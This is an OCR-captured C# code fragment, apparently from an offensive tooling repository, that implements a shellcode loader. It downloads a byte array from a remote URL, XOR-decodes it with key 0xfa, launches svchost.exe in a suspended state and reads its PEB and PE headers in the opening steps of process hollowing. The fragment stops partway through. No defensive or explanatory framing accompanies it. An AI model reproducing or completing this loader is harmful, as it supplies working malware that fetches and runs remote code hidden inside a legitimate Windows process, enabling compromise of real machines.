 ```csharp

            try
            {
                using (HttpClient client = new HttpClient())
                {
                    // Download the file content as a string directly into memory
                    string declaration = client.GetStringAsync(url).Result; // Blocking call
                    declaration = declaration.Trim();

                    // Use a regex to extract the byte values
                    //var match = Regex.Match(declaration, @"new byte\[\d+\] \{(.*?)\};");
                    var match = Regex.Match(declaration, @"new byte\[\d+\] \{(.*?)\};", RegexOptions.Singleline);

                    if (match.Success)
                    {
                        string byteValues = match.Groups[1].Value;
                        string[] hexArray = byteValues.Split(',');

                        // Create the byte array with the dynamic size based on the number of hex values
                        byte[] buf = new byte[hexArray.Length];

                        for (int i = 0; i < hexArray.Length; i++)
                        {
                            // Convert each hex string to a byte
                            buf[i] = Convert.ToByte(hexArray[i].Trim(), 16);
                        }

                        for (int i = 0; i < buf.Length; i++)
                        {
                            //buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
                            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
                        }

                        STARTUPINFO si = new STARTUPINFO();
                        PROCESS_INFORMATION pi = new PROCESS_INFORMATION();

                        bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero,
                            IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);

                        PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
                        uint tmp = 0;
                        IntPtr hProcess = pi.hProcess;
                        ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

                        IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);

                        byte[] addrBuf = new byte[IntPtr.Size];
                        IntPtr nRead = IntPtr.Zero;
                        ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

                        IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

                        byte[] data = new byte[0x200];
                        ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

                        uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);

                        uint opthdr = e_lfanew_offset + 0x28;
```